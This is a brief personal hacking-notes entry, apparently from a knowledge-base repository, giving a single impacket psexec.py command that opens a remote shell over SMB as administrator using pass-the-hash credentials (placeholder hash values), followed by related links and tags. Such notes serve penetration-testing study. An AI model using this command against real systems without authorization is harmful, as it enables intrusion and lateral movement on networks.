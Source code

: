 # impacket psexec get remote shell over SMB with administrator account
```bash
psexec.py administrator@$IP -hashes abcd123abcd123abcd123abcd123abcd:abcd123abcd123abcd123abcd123abcd
```

` zet/20221003150599/README.md `

# Related

- [20221014185950](/zet/20221014185950/README.md) kb file named kb/hacking/commands/impacket-commands.md
- [20221003150600](/zet/20221003150600/README.md) impacket
- ~/kb/hacking/commands/impacket-commands.md

Tags:

    #command #hacking #impacket 
